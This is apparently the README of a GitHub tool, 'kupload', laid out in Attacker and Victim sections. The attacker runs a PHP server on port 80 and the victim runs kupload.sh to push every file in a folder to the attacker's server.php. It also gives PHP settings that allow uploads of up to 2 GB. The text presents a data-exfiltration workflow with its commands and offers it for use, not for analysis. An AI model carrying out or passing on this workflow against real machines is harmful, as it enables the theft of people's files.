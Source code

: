 # kupload
This script is used to automatically and progressively upload files to a server configured by us.

### Install

```
git clone https://github.com/JsonSecurity/kupload
cd kupload
chmod +x kupload.sh
```

### Testing

<img src="https://github.com/JsonSecurity/Images/blob/main/scripts/kupload_test.png" />

### Attacker

- First, we start the server with PHP in the folder where the `index.php`, `server.php` and `uploads/` files are located.
- We use `0.0.0.0` to indicate the local IP address and port `80`.

```
php -S 0.0.0.0:80 
```

#### Victim
- To start the file transfer or upload, we must run the `kupload.sh` script in the folder where the files we want to upload are located.
- It also has some options to indicate whether to continue from a certain file onward.
- We run it and in the first argument we provide our IP, in this case local, and the server.php file.

```
./kupload.sh http://192.168.101.30/server.php
```
#### Upload files larger than 50MB

Using PHP we search for the `php.ini` file

```
php --ini
# Loaded Configuration File: /etc/php/8.2/cli/php.ini

micro /etc/php/8.2/cli/php.ini
```

Correctly configure PHP and the server

```
; Maximum file sizes and POST
upload_max_filesize = 2G
post_max_size = 2G

; Maximum execution and reading time
max_execution_time = 300
max_input_time = 300

; Upload buffer size (important)
memory_limit = 512M
```





